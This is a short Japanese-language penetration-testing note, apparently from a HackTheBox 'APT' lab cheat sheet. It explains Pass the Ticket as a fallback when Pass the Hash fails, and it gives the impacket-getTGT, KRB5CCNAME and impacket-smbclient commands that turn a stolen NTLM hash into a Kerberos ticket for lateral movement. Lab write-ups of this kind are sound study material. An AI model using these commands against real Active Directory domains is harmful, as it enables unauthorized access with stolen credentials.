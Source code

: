 # Pass The Hashがいけそでいけねー場合はPass The Ticketを狙うべし

Kerberosチケットでの認証は許可されていて、NTLMでの認証は許可されていないかも。

**impacket-getTGT** でハッシュからTGTを作成。

```
impacket-getTGT -hashes <NTLM hash> -dc-ip <IP> <domain>/<username>
```

その後、チケットがつくれてuser.ccacheに保存されたら、以下のようにチケットを登録する：

```
export KRB5CCNAME=user.ccache
```

チケットができたら、今までpass the hashでやっていたimpacketを、このチケットをつかって行えばよい（オプション **-no-pass -k**）。

Aptではbruteforceした：

![gettgtbrute](https://user-images.githubusercontent.com/85237728/159113359-050c0e98-259d-406a-aff3-7230cc59e61a.png)

c.f. https://www.thehacker.recipes/ad/movement/kerberos/ptk

![gotticket](https://user-images.githubusercontent.com/85237728/159119239-5d4bf0fc-c1ed-4e54-9b3c-d47a97ff4ae1.png)

![klist](https://user-images.githubusercontent.com/85237728/159119325-89e415d6-1ce0-4296-930a-093bd0adb96d.png)

例：

```
impacket-smbclient -dc-ip apt -k -no-pass htb.local/henry.vinson@apt
```
